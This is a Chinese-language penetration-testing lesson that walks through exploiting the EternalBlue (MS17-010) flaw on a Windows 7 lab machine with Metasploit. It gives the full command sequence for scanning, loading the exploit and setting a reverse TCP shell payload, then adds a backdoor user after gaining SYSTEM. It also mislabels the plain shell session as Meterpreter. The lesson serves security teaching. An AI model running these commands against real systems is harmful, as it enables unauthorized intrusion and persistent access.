# 课程P65：11.5【Metasploit渗透】实战-使用msf渗透攻击Win7主机并远程执行命令 🎯

## 概述

在本节课中，我们将学习如何使用Metasploit框架，利用经典的“永恒之蓝”漏洞（MS17-010），对一台存在该漏洞的Windows 7主机进行渗透攻击，并最终获取其远程命令执行权限。我们将从漏洞背景介绍开始，逐步讲解信息收集、模块配置、载荷设置到最终攻击的完整流程。

---

## 永恒之蓝漏洞背景

永恒之蓝是2017年4月14日晚由黑客组织“影子经纪人”公布的一批网络攻击工具之一。它利用Windows系统的SMB协议漏洞，可以获取系统的最高权限。

2017年5月12日，不法分子通过改造永恒之蓝，制作了WannaCry勒索病毒。该病毒会加密受害者电脑中的所有文件，并要求支付高额比特币赎金以解密。全球多个国家的高校、企业和政府机构都曾遭受此病毒攻击。

Windows 7系统于2009年发布，现已停止维护，但永恒之蓝漏洞依然存在于未打补丁的系统中。本节课将利用此经典漏洞演示如何通过Metasploit渗透攻击模块获取目标主机的权限。

关于永恒之蓝漏洞，微软官方有相关安全公告，其漏洞编号为**MS17-010**。该漏洞严重影响Windows SMB服务，如果攻击者向Windows SMBv1服务器发送特殊设计的消息，最严重的情况下可能允许远程执行代码。

---

## 实验环境准备



本次实战攻击的目标是一台**Windows 7 旗舰版 SP1 64位**系统。目标系统镜像可通过提供的百度网盘链接下载。该系统已设置初始快照，登录密码为 **123456**。

在开始攻击前，需要注意目标机的网络配置：
1.  **445端口**：SMB服务端口，必须处于开启状态。
2.  **防火墙**：如果防火墙开启，需确保网络位置为“家庭”或“工作”网络。“公用”网络的防火墙策略更严格，可能阻止渗透。
3.  可使用`nmap`等工具扫描目标机IP和端口状态进行确认。



---

## Metasploit渗透攻击流程

利用已知漏洞编号对目标进行渗透攻击，其标准流程如下：
1.  根据漏洞编号（如MS17-010）在Metasploit中搜索对应模块。
2.  加载（`use`）找到的模块。
3.  查看（`show options`）并设置模块所需参数（主要是目标IP）。
4.  配置攻击载荷（`payload`），建立与目标机的连接。
5.  执行（`run`或`exploit`）攻击。

接下来，我们将按照这个流程逐步操作。

---


## 步骤一：扫描确认漏洞存在

在发起正式攻击前，最好先确认目标主机是否存在该漏洞。Metasploit提供了辅助扫描模块。



以下是搜索并使用扫描模块的步骤：



```
search ms17-010
use auxiliary/scanner/smb/smb_ms17_010
show options
set RHOSTS 192.168.1.56
run
```

执行扫描后，如果结果显示 **`Host is likely vulnerable to MS17-010`**，则证明目标主机存在该漏洞，可以继续进行渗透攻击。

---

## 步骤二：选择并配置攻击模块

确认漏洞存在后，我们需要使用攻击（`exploit`）模块。在搜索结果中，我们选择 `exploit/windows/smb/ms17_010_eternalblue` 模块。

以下是加载并配置攻击模块的步骤：

```
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOST 192.168.1.56
```

设置目标IP后，通常无需更改其他默认参数。可以通过 `show targets` 命令查看模块支持的操作系统，本例中默认目标（Windows 7）即可。

---



## 步骤三：理解并配置攻击载荷（Payload）




仅仅利用漏洞还不够，我们的最终目的是与目标机建立连接并执行命令。这需要通过**攻击载荷（Payload）**来实现。

**攻击原理**：
1.  攻击机（Kali）利用漏洞模块攻击目标机（Win7）。
2.  攻击成功后，攻击机会向目标机发送一段Payload代码（即后门）。
3.  该Payload会在目标机上执行，并尝试**反弹连接（Reverse Connection）**回攻击机事先监听的IP和端口。
4.  连接建立后，攻击机便获得了目标机的一个命令交互会话（Session）。



因此，我们需要为攻击模块配置一个合适的Payload。我们选择反向连接的Shell。

以下是搜索并设置Payload的步骤：

```
search platform:windows -t payload
set payload windows/x64/shell/reverse_tcp
show options
set LHOST 192.168.1.53
set LPORT 4444
```

**关键参数说明**：
*   `LHOST`：监听主机的IP，即攻击机（Kali）的IP地址。
*   `LPORT`：监听端口，攻击机等待目标机反弹连接的端口。


---



## 步骤四：执行攻击与获得Shell

所有参数配置完成后，即可执行攻击。

```
exploit
```


如果攻击成功，Metasploit会显示 `Meterpreter session X opened` 的信息，表示已建立会话。有时界面会暂停，只需按一下**回车键**，即可出现目标机的命令提示符（如 `C:\Windows\system32>`）。

此时，我们已获得目标机的**System权限**（Windows最高权限）。可以执行各种命令，例如：

```
chcp 65001          # 解决可能出现的乱码问题
net user            # 查看系统用户
net user admin Adm123 /add  # 添加一个新用户
```

---


## 步骤五：会话管理技巧

在渗透测试中，灵活管理会话非常重要。



*   **返回Metasploit**：在Shell中执行 `background` 命令，可以将当前会话置于后台。
*   **查看所有会话**：在msf提示符下执行 `sessions` 命令。
*   **进入指定会话**：执行 `sessions -i [会话ID]`。
*   **结束会话**：执行 `sessions -k [会话ID]` 或 在会话中按 `Ctrl+C`。
*   **后台运行攻击**：执行 `exploit -j` 可以让攻击模块在后台运行并监听。




---

## 总结





本节课我们一起学习了使用Metasploit框架进行渗透攻击的完整流程。我们以“永恒之蓝”（MS17-010）漏洞为例，从漏洞背景介绍开始，逐步演练了**扫描确认漏洞**、**选择配置攻击模块**、**理解并设置反弹连接载荷**、**执行攻击获取Shell**以及**基础会话管理**等关键步骤。

核心流程可以总结为以下公式：
**信息收集 → 漏洞确认 → 模块加载与配置（`use`/`set`） → 载荷绑定（`set payload`） → 执行攻击（`exploit`） → 会话交互与管理**


通过这个实战，你应该对Metasploit如何利用一个已知漏洞获取远程系统权限有了直观的认识。请务必在授权和合法的环境中进行练习，巩固所学知识。